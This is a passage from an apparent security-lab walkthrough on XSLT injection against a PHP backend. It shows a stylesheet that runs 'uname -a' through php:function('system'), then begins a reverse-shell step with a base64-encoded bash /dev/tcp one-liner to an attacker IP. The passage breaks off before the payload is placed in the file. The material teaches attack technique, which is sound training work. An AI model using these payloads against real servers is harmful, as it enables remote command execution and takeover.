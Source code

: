 
Save the following content under the test.xslt file:

test.xsl:
```xml
<xsl:stylesheet xmlns:xsl="http://www.w3.org/1999/XSL/Transform" xmlns:php="http://php.net/xsl"
version="1.0">
<!-- We add the PHP's xmlns -->
  <xsl:template match="/">
    <html>
       <!-- We use the php suffix to call the functions -->
       <xsl:value-of select="php:function('system','uname -a')" />
       <!-- Output: 'Php Can Now Be Used In Xsl' -->
    </html>
  </xsl:template>
</xsl:stylesheet>
```


> Notice that we have specified the uname -a command to be executed via the PHP system function.

If the backend XSLT processing code has registered PHP functions, then the above code would run, and we will see the output of the uname -a command on the resulting page.

Upload the modified XSL file:


- Now click on the Transform! button
- Notice the output of the uname -a command is shown on the resulting page:

> This confirms the backend XSLT processing code has registered PHP functions. This configuration is inherently vulnerable because the user-supplied XSL files are processed as is, without any sanitization/filtering.

Step 11: Obtain a reverse shell on the target server.

Check the IP address of the attacker machine:

Command:
```bash
ip addr
```


The IP address of the attacker machine is 192.170.91.2/24.

> [Note] The IP address assigned to your Kali GUI instance would certainly be different. Please make sure to replace it in the subsequent commands.

Next, we will base64-encode the reverse shell payload to avoid it being tampered with while uploading over HTTP:

Command:
```bash
echo "/bin/bash -c 'bash -i>& /dev/tcp/192.170.91.2/54321 0>&1'" | base64 -w0 ; echo
```



> [Note] Make sure to replace the IP address in the above command.

Add the reverse shell payload in the XSL file:
